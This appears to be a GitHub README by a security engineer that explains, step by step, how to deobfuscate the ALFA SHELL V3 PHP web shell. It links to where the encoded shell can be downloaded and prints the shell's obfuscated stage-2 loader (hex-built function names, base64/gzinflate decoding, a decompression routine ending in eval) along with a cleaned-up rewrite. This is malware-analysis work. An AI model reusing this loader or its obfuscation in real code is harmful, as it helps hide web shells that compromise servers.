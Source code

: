 # DeObfuscation ALFA SHELL V3

### How to decode ALFA SHELL V3?

1 - Download encode shell : http://getalfa.rf.gd/?i=1 <br />

2 - Open file `alfav3-encoded.php` we will see `$MuSoTSurZq='e'.'v'.'al'.'';`  <br />

![Image 1](https://github.com/raminfp/DeObfuscation_ALFA_SHELL_V3/blob/master/1.png) <br />

### Start Stage 1

3 - Replace`$MuSoTSurZq='e'.'v'.'al'.'';` to `$MuSoTSurZq='echo';` <br /> 

![Image 2](https://github.com/raminfp/DeObfuscation_ALFA_SHELL_V3/blob/master/2.png) <br />

4 - Now we should run `php alfav3-encoded.php > decode_stage_1.php` <br />


5 - Again encoded ALFA, We see intersting message :

``` /* You're killing me again 🎧 Am I still in your head ? 🎧 You used to light me up 🎧 Now you shut me down -- Solevisible */ ```

This message of music `Archive - Again ` Music linke : https://www.youtube.com/watch?reload=9&v=NF52fcoIqg4

### Start Stage 2

6 -
```php
$阿尔法词=十六进制转换('666736736265687075726134636f5f746e646978');$函数存在=$阿尔法词{0}.$阿尔法词{8}.$阿尔法词{16}.$阿尔法词{12}.$阿尔法词{15}.$阿尔法词{18}.$阿尔法词{13}.$阿尔法词{16}.$阿尔法词{14}.$阿尔法词{5}.$阿尔法词{19}.$阿尔法词{18}.$阿尔法词{3}.$阿尔法词{15}.$阿尔法词{3};function 十六进制转换($十六进制){$串='';for($计数=0;$计数<strlen($十六进制);$计数+=2)$串.=chr(hexdec(substr($十六进制,$计数,2)));return $串;}function 编码器($串){return __ZGVjb2Rlcg($串);}function 随机($串){return ord($串);}function 内容($串){return @file_get_contents($串);}if(!$函数存在("阿尔法功能启动")){function 阿尔法功能启动($阿尔法变量的一个){$阿尔法变量的一个=编码器($阿尔法变量的一个);$阿尔法功能启动=0;$阿尔法两个变量=0;$阿尔法变三=0;$阿尔法四个变量=(随机($阿尔法变量的一个[1])<<8)+随机($阿尔法变量的一个[2]);$阿尔法五个变量=3;$阿尔法六个变量=0;$阿尔法七个变量=16;$阿尔法变八="";$阿尔法九变=strlen($阿尔法变量的一个);$阿尔法变量十=__FILE__;$阿尔法变量十=内容($阿尔法变量十);$阿尔法变量十一=0;preg_match(编码器("LyhwcmludHxzcHJpbnR8ZWNobykv"),$阿尔法变量十,$阿尔法变量十一);for(;$阿尔法五个变量<$阿尔法九变;){if(count($阿尔法变量十一)) exit;if($阿尔法七个变量==0){$阿尔法四个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<8);$阿尔法四个变量+=随机($阿尔法变量的一个[$阿尔法五个变量++]);$阿尔法七个变量=16;}if($阿尔法四个变量&0x8000){$阿尔法功能启动=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<4);$阿尔法功能启动+=(随机($阿尔法变量的一个[$阿尔法五个变量])>>4);if($阿尔法功能启动){$阿尔法两个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])&0x0F)+3;for($阿尔法变三=0;$阿尔法变三<$阿尔法两个变量;$阿尔法变三++)$阿尔法变八[$阿尔法六个变量+$阿尔法变三]=$阿尔法变八[$阿尔法六个变量-$阿尔法功能启动+$阿尔法变三];$阿尔法六个变量+=$阿尔法两个变量;}else{$阿尔法两个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<8);$阿尔法两个变量+=随机($阿尔法变量的一个[$阿尔法五个变量++])+16;for($阿尔法变三=0;$阿尔法变三<$阿尔法两个变量;$阿尔法变八[$阿尔法六个变量+$阿尔法变三++]=$阿尔法变量的一个[$阿尔法五个变量]);$阿尔法五个变量++;$阿尔法六个变量+=$阿尔法两个变量;}}else $阿尔法变八[$阿尔法六个变量++]=$阿尔法变量的一个[$阿尔法五个变量++];$阿尔法四个变量<<=1;$阿尔法七个变量--;if($阿尔法五个变量==$阿尔法九变){$阿尔法变量十=implode("",$阿尔法变八);$阿尔法变量十="?".">".$阿尔法变量十;return $阿尔法变量十;}}}
}
print_r(阿尔法功能启动(""));
eval(阿尔法功能启动("QAAAPD9waH .... "));
```
I change code of stage 2 of chines language `decode_stage_2.php`: 

```php

<?php

$txjCEtOsnV='f'.'u'.'nc'.'t'.'io'.'n'.'_'.'exist'.'s';
$AiFWszqQIS='cha'.'r'.'Cod'.'eAt';$XBHjjUIPPF='echo';
$HchfyPfIrM='gzinfl'.'ate';if(!$txjCEtOsnV('b'.'a'.'s'.'e'.'6'.'4'.'_e'.'n'.'c'.'od'.'e'.'')){function VVjQyGUShF($data){if(empty($data))return;$b64='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';$o1 = $o2 = $o3 = $h1 = $h2 = $h3 = $h4 = $bits = $i = 0;$ac = 0;$enc = '';$tmp_arr = array();if(!$data){return $data;}do{$o1 = $AiFWszqQIS($data, $i++);$o2 = $AiFWszqQIS($data, $i++);$o3 = $AiFWszqQIS($data, $i++);$bits = $o1 << 16 | $o2 << 8 | $o3;$h1 = $bits >> 18 & 0x3f;$h2 = $bits >> 12 & 0x3f;$h3 = $bits >> 6 & 0x3f;$h4 = $bits & 0x3f;$tmp_arr[$ac++] = charAt($b64, $h1).charAt($b64, $h2).charAt($b64, $h3).charAt($b64, $h4);} while ($i < strlen($data));$enc = implode($tmp_arr, '');$r = (strlen($data) % 3);return ($r ? substr($enc, 0, ($r - 3)) : $enc).substr('===', ($r || 3));}function charCodeAt($data, $char){ return ord(substr($data, $char, 1));}function charAt($data, $char){return substr($data, $char, 1);}}else{function VVjQyGUShF($s){$b='b'.'a'.'s'.'e'.'6'.'4'.'_e'.'n'.'c'.'od'.'e'.'';return $b($s);}}if(!$txjCEtOsnV('ba'.'se6'.'4_d'.'e'.'c'.'ode')){function prGVlydQcW($input){if(empty($input))return;$keyStr = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";$chr1 = $chr2 = $chr3 = "";$enc1 = $enc2 = $enc3 = $enc4 = "";$i = 0;$output = "";$input = preg_replace("[^A-Za-z0-9\+\/\=]", "", $input);do{$enc1 = strpos($keyStr, substr($input, $i++, 1));$enc2 = strpos($keyStr, substr($input, $i++, 1));$enc3 = strpos($keyStr, substr($input, $i++, 1));$enc4 = strpos($keyStr, substr($input, $i++, 1));$chr1 = ($enc1 << 2) | ($enc2 >> 4);$chr2 = (($enc2 & 15) << 4) | ($enc3 >> 2);$chr3 = (($enc3 & 3) << 6) | $enc4;$output = $output . chr((int) $chr1);if ($enc3 != 64) {$output = $output . chr((int) $chr2);}if ($enc4 != 64) {$output = $output . chr((int) $chr3);}$chr1 = $chr2 = $chr3 = "";$enc1 = $enc2 = $enc3 = $enc4 = "";}while($i < strlen($input));return $output;}}else{function prGVlydQcW($s){$b='ba'.'se6'.'4_d'.'e'.'c'.'ode';return $b($s);}}$lOUhvmLHrl='c'.'reat'.'e'.'_'.'funct'.'i'.'on';$BLKLPTRwbV = $lOUhvmLHrl('$lY',$XBHjjUIPPF.'('.$HchfyPfIrM.'('.'pr'.'G'.'V'.'lyd'.'Q'.'c'.'W'.'($lY)'.')'.')'.';');


$keys=func_1('666736736265687075726134636f5f746e646978');

$split_keys=$keys{0}.$keys{8}.$keys{16}.$keys{12}.$keys{15}.$keys{18}.$keys{13}.$keys{16}.$keys{14}.$keys{5}.$keys{19}.$keys{18}.$keys{3}.$keys{15}.$keys{3};
function func_1($arg_1){
    $串='';
    for($i=0;$i<strlen($arg_1);$i+=2)
    $串.=chr(hexdec(substr($arg_1,$i,2)));
    return $串;
}

function __ZGVjb2Rlcg($s)
{
    return prGVlydQcW($s);
}

function func_2($串){
        return __ZGVjb2Rlcg($串);
}
function func_3_ord($串){
        return ord($串);
}
function func_4($串){
        return @file_get_contents($串);
}

if(!$split_keys("func_5")) {
        $func_5_arg = "";
            $func_5_arg=func_2($func_5_arg);
            $func_5=0;
            $counter=0;
            $Counter_5=0;
            $var_2=(func_3_ord($func_5_arg[1])<<8)+func_3_ord($func_5_arg[2]);
            $Counter_2=3;
            $Counter_3=0;
            $Counter_4=16;
            $ret_str="";
            $get_length_arg=strlen($func_5_arg);
            $get_files=__FILE__;
            $get_files=func_4($get_files);
            $get_files一=0;
            preg_match(func_2("LyhwcmludHxzcHJpbnR8ZWNobykv"),$get_files,$get_files一);

            for(;$Counter_2<$get_length_arg;){
         
                if($Counter_4==0){
                    $var_2=(func_3_ord($func_5_arg[$Counter_2++])<<8);
                    $var_2+=func_3_ord($func_5_arg[$Counter_2++]);
                    $Counter_4=16;
                }
                if($var_2&0x8000){
                    $func_5 = (func_3_ord($func_5_arg[$Counter_2++])<<4);
                    $func_5 += (func_3_ord($func_5_arg[$Counter_2])>>4);
                    if($func_5){
                        $counter=(func_3_ord($func_5_arg[$Counter_2++])&0x0F)+3;
                        for($Counter_5=0;$Counter_5<$counter;$Counter_5++)
                            $ret_str[$Counter_3+$Counter_5] = $ret_str[$Counter_3-$func_5+$Counter_5];
                            $Counter_3+=$counter;
                        }
                        else{
                            $counter=(func_3_ord($func_5_arg[$Counter_2++])<<8);
                            $counter+=func_3_ord($func_5_arg[$Counter_2++])+16;
                            for($Counter_5=0;$Counter_5<$counter;
                            $ret_str[$Counter_3+$Counter_5++]=$func_5_arg[$Counter_2]);
                            $Counter_2++;
                            $Counter_3+=$counter;
                        }
                    }
                    else
                    $ret_str[$Counter_3++]=$func_5_arg[$Counter_2++];
                    $var_2<<=1;
                    $Counter_4--;
                    if($Counter_2==$get_length_arg){
                        echo $ret_str;
                    }
        }
}

```

7 - Again we run `php decode_stage_2.php > final_alfashell.php` seccessfully decode ALFA SHELL :),


Thanks, <br />
Ramin - kernel security engineering 
